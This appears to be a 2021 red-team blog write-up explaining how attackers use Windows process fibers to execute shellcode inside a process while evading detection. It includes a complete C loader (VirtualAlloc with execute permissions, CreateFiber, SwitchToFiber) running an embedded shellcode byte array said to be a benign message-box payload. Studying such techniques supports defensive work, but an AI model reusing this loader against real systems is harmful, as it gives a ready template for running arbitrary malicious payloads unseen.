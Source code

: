 ```yaml
---
layout: post
title: "7 days of Red- Day 1"
date: 2021-3-31 0:00:00 -0400
categories: Writeup
---
```



​                                                                                           

```


/***
 *    ███████╗    ██████╗  █████╗ ██╗   ██╗███████╗     ██████╗ ███████╗    ██████╗ ███████╗██████╗ 
 *    ╚════██║    ██╔══██╗██╔══██╗╚██╗ ██╔╝██╔════╝    ██╔═══██╗██╔════╝    ██╔══██╗██╔════╝██╔══██╗
 *        ██╔╝    ██║  ██║███████║ ╚████╔╝ ███████╗    ██║   ██║█████╗      ██████╔╝█████╗  ██║  ██║
 *       ██╔╝     ██║  ██║██╔══██║  ╚██╔╝  ╚════██║    ██║   ██║██╔══╝      ██╔══██╗██╔══╝  ██║  ██║
 *       ██║      ██████╔╝██║  ██║   ██║   ███████║    ╚██████╔╝██║         ██║  ██║███████╗██████╔╝
 *       ╚═╝      ╚═════╝ ╚═╝  ╚═╝   ╚═╝   ╚══════╝     ╚═════╝ ╚═╝         ╚═╝  ╚═╝╚══════╝╚═════╝ 
 *                                                                                                  
 */
          
      ██████╗  █████╗ ██╗   ██╗     ██╗
      ██╔══██╗██╔══██╗╚██╗ ██╔╝    ███║
      ██║  ██║███████║ ╚████╔╝     ╚██║
      ██║  ██║██╔══██║  ╚██╔╝       ██║
      ██████╔╝██║  ██║   ██║        ██║
      ╚═════╝ ╚═╝  ╚═╝   ╚═╝        ╚═╝
                                       
      
      
      
          
                                           


```

## **Process Fiber Local Shellcode Execution**
Local shellcode execution techniques can be used by attackers to spawn malicious code from inside a process.
Recently the Lazuras group employed this class of technique in order run code in VBA Macros undetected, more information can be found here: https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/.
However in this technique we are abusing the implementation of process fibers in order to run local shellcode. 
These fibers are essentially lightweight threads that can be scheduled in user mode without the need of assistance from the kernel. Due to this, execution of a process fiber is invisible to the kernel,which makes it a interesting method for offensive purposes. In order to implement a process fiber you would have to convert your current thread into a fiber. 
Then from there you will be able to schedule sub-fibers that point to your shellcode.
Lastly you just need to switch to the shellcode fiber context in order to execute it.


This will cause a alert due to this being a meterpreter payload for spawning a messagebox*

Steps:

- [ ]  1`Convert Current Thread to a Fiber-ConvertThreadToFiber()`

- [ ]  2.`Allocate Memory in the Current Process with PAGE_EXECUTE_READWRITE permissions-VirtualAlloc()`

  ​      *** **`Allocating memory with PAGE_EXECUTE_READWRITE is bad opsec****`

- [ ] 3. `Copy shellcode into allocated memory space - CopyMemory()`

- [ ] 4.`Start a New fiber pointing to the allocated memory space - CreateFiber()`

- [ ] 5.`Switch Fiber Context to newly created Fiber-SwitchFiber()`

C Code for implementation:



```c
#include <windows.h>


int main(int argc, char **argv){

unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e\x4c\x8d"
"\x85\x08\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5\x53\x68\x65"
"\x6c\x6c\x63\x6f\x64\x65\x00\x53\x75\x63\x63\x65\x73\x73\x00";

LPVOID fiber = ConvertThreadToFiber(NULL);
LPVOID shellLoc= VirtualAlloc(NULL,sizeof(shellcode),MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE);
CopyMemory(shellLoc,shellcode,sizeof(shellcode));
LPVOID shellFiber= CreateFiber(0,(LPFIBER_START_ROUTINE)shellLoc,NULL);
SwitchToFiber(shellFiber);

}

```
Ref:

https://docs.microsoft.com/en-us/windows/win32/procthread/fibers






 
